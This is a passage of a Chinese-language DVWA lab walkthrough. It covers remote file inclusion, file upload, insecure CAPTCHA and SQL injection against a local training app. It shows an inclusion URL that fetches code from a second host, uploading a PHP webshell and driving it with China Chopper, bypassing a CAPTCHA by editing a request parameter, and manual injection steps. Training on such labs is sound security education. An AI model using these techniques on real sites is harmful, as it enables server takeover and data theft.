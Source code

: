构造url
	http://127.0.0.1/dvwa/vulnerabilities/fi/page=http://192.168.5.12/phpinfo.txt
成功在服务器上执行了phpinfo函数
为了增加隐蔽性，可以对http://192.168.5.12/phpinfo.txt进行编码
同样可以执行成功

###File Upload（文件上传）
File Upload，即文件上传漏洞，通常是由于对上传文件的类型、内容没有进行严格的过滤、检查，使得攻击者可以通过上传木马获取服务器的webshell权限，因此文件上传漏洞带来的危害常常是毁灭性的，Apache、Tomcat、Nginx等都曝出过文件上传漏洞。

服务器对上传文件的类型、内容没有做任何的检查、过滤，存在明显的文件上传漏洞，生成上传路径后，服务器会检查是否上传成功并返回相应提示信息。

> 漏洞利用

文件上传漏洞的利用是有限制条件的，首先当然是要能够成功上传木马文件，其次上传文件必须能够被执行，最后就是上传文件的路径必须可知。
上传文件hack.php
![](http://image.3001.net/images/20161108/14785912161713.png)
上传成功，并且返回了上传路径

打开中国菜刀，右键添加，地址栏填入上传文件所在路径
	http://127.0.0.1/dvwa/hackable/uploads/hack.php
参数名（一句话木马口令）为apple
![](http://image.3001.net/images/20161108/14785912718652.png!small)

然后菜刀就会通过向服务器发送包含apple参数的post请求，在服务器上执行任意命令，获取webshell权限。
可以下载、修改服务器的所有文件。可以打开服务器的虚拟终端。

###Insecure CAPTCHA （不安全的验证码）
Insecure CAPTCHA，意思是不安全的验证码，CAPTCHA是Completely Automated Public Turing Test to Tell Computers and Humans Apart (全自动区分计算机和人类的图灵测试)的简称。

服务器将改密操作分成了两步，第一步检查用户输入的验证码，验证通过后，服务器返回表单，第二步客户端提交post请求，服务器完成更改密码的操作。但是，这其中存在明显的逻辑漏洞，服务器仅仅通过检查Change、step 参数来判断用户是否已经输入了正确的验证码。

> 漏洞利用

1.通过构造参数绕过验证过程的第一步
首先输入密码，点击Change按钮，抓包：
因为没有翻墙，所以没能成功显示验证码，发送的请求包中也就没有recaptcha_challenge_field、recaptcha_response_field两个参数）

更改step参数绕过验证码：
![](http://image.3001.net/images/20161110/14787628821104.png!small)

在Burpsuite中右键send to Repeater，在Repeater中点击go
修改密码成功

###SQL Injection（SQL注入）
SQL Injection，即SQL注入，是指攻击者通过注入恶意的SQL命令，破坏SQL查询语句的结构，从而达到执行恶意SQL语句的目的。
自动化的注入神器sqlmap
> 手工注入思路

1.判断是否存在注入，注入是字符型还是数字型
2.猜解SQL查询语句中的字段数
3.确定显示的字段顺序
4.获取当前数据库
5.获取数据库中的表
6.获取表中的字段名
7.下载数据
